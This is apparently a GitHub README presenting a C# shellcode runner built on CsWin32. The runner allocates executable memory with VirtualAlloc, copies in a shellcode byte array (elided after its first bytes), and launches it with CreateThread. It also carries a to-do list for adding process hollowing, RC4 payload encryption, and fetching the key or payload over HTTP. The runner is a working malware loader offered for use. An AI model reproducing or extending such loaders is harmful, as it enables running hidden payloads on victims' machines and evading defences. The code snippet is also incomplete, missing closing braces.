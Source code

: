 #### Shellcode runner using CsWin32

- Thread runs until process is killed
- If used, would need to migrate process to something else due to the nature of the thread
- code snippet 
```csharp
using System;
using System.Runtime.InteropServices;
using Windows.Win32;
using Windows.Win32.System.Memory;
using Windows.Win32.Foundation;

namespace ShellCodeRunnerCsWin32
{
    internal class Program
    {


        static unsafe void Main(string[] args)
        {



            byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,...}

           UIntPtr msize = (UIntPtr)(uint)buf.Length;
            
           void* allocatedMemory = PInvoke.VirtualAlloc(null, msize, VIRTUAL_ALLOCATION_TYPE.MEM_COMMIT, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

           Marshal.Copy(buf, 0, (IntPtr)allocatedMemory, buf.Length);

           IntPtr n = new IntPtr(&allocatedMemory);

  
           Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE allocatedMemoryPointer = (Windows.Win32.System.Threading
              .LPTHREAD_START_ROUTINE)Marshal.GetDelegateForFunctionPointer((IntPtr)allocatedMemory, typeof(Windows.Win32.System.Threading
              .LPTHREAD_START_ROUTINE));


           HANDLE h = PInvoke.CreateThread(
               null,
               0,
               allocatedMemoryPointer,
               (void*)0,
               0
               );

           PInvoke.WaitForSingleObject(h, 0xFFFFFFFF);

```

### To Do:
- take this code and create other versions (eg process hollowing)
- add in rc4 encryption for the payload
	- get decryption key through http or command line
	- download the payload or read from a file
- maybe add some command line arguments for flexibility